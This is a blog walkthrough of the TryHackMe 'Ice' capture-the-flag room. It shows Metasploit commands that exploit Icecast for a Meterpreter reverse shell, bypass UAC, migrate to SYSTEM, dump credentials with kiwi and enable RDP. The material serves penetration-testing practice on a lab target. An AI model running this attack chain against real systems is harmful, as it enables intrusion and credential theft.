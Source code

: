 ```yaml
---
slug: ice-walkthrough
title: TryHackMe - Ice - Walkthrough
authors: bw
tags: [learning, ice, tryhackme, walkthrough]
---
```


This is a walkthrough for room: [Ice][ice-r], on [TryHackMe][thm]. This is an easy walkthrough room. Let’s get started!
<!-- truncate -->

# Recon
We are going to start with an `nmap` scan:

![i1](/img/thm/ice/i1.png)

We can utilize the `nmap` scan to answer the first 3 questions of the room.

# Gain Access
Let’s do some googling and look for the CVE score of the icecast vulnerability. Here is a link to the list of vulnerabilities: [Link][ice-v]. Here we find out next two answers.

Start metasploit:

```bash
msfconsole
search icecast ##(find next answer)
use 0
options
set rhosts 10.10.35.203
set lhost tun0 ##(if needed)
run
```
Wow. We got a shell! That was pretty easy. Let’s continue on!

![i2](/img/thm/ice/i2.png)

# Escalate
We get the first answer right away. Next let’s run the following for more answers:

`getuid`
`sysinfo`
**NOTE:** Normally, I would back out of this exploit, and change the payload of our meterpreter shell to x64 instead of our current x86 (we always want those to line up), but in this case I am just going to keep going.

```bash
run post/multi/recon/local_exploit_suggester
background
use exploit/windows/local/bypassuac_eventvwr
options
set sessions 1 #(Your session could be a different number)
set lhost tun0
set lport 4445 #(We already have a session on 4444)
run
getprivs
```
We now have elevated permissions! Last answer can be found from the output of the `getprivs` command.

![i3](/img/thm/ice/i3.png)

# Looting
Let’s run `ps`, where we find our next answer:

![i4](/img/thm/ice/i4.webp)

Now we can migrate to that process with `migrate -N <process_name>`

**NOTE:** We can also migrate by using the Process ID (PIC): `migrate 692`

Now when we run getuid we are: `NT AUTHORITY\SYSTEM`. WOOHOO!

```bash
load kiwi
help
creds_all
```
With that, we have completed this section! Almost done!

# Post-Exploitation
Run `help` to answer all the questions in this section.

Enable RDP: `run post/windows/manage/enable_rdp`

# Extra Credit
That’s all there is to this room! Try doing the manual exploitation on your own!

# Review
This was a really interesting walkthrough room. While it was heavily guided, I liked how it followed the process of how you would do a pentest on the machine in a way that somewhat resembles the real-world. I hope you enjoyed this walkthrough!

References
[Ice Room][ice-r] | [TryHackMe][thm] | [Icecast Vulns][ice-v]

[ice-r]: https://tryhackme.com/r/room/ice
[thm]: https://tryhackme.com
[ice-v]: https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/version_id-16877/Icecast-Icecast-2.0.1.html